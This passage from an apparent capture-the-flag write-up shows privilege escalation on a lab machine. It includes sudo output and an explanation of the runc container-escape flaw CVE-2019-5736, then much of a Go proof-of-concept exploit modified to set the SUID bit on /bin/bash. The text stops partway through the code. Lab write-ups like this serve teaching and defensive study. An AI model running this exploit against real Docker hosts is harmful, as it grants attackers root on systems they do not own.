 Checking for sudo permission we can see noah is able to run `docker exec -it` on any container starting with `webapp-dev01`.

```php
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

Looking at the docker version it is below `18.09.2`, which means its version of runc might be vulnerable to CVE-2019-5736. To exploit this we can overwrite a binary (/bin/sh in this case) inside the docker container with `#!/proc/self/exe` which points to the binary that started the process. With this we can now overwrite the runc binary on the host, giving us command execution as root.

Following this [PoC](https://github.com/Frichetten/CVE-2019-5736-PoC) for it we first change the `main.go` file to include the command which we want to run, in this case setting the suid bit on bash and compile the file.

`main.go`
```go
package main

// Implementation of CVE-2019-5736
// Created with help from @singe, @_cablethief, and @feexd.
// This commit also helped a ton to understand the vuln
// https://github.com/lxc/lxc/commit/6400238d08cdf1ca20d49bafb85f4e224348bf9d
import (
	"fmt"
	"io/ioutil"
	"os"
	"strconv"
	"strings"
)

// This is the line of shell commands that will execute on the host
var payload = "#!/bin/bash \n chmod +s /bin/bash"

func main() {
	// First we overwrite /bin/sh with the /proc/self/exe interpreter path
	fd, err := os.Create("/bin/sh")
	if err != nil {
		fmt.Println(err)
		return
	}
	fmt.Fprintln(fd, "#!/proc/self/exe")
	err = fd.Close()
	if err != nil {
		fmt.Println(err)
		return
	}
	fmt.Println("[+] Overwritten /bin/sh successfully")

	// Loop through all processes to find one whose cmdline includes runcinit
	// This will be the process created by runc
	var found int
	for found == 0 {
		pids, err := ioutil.ReadDir("/proc")
		if err != nil {
			fmt.Println(err)
			return
		}
		for _, f := range pids {
```
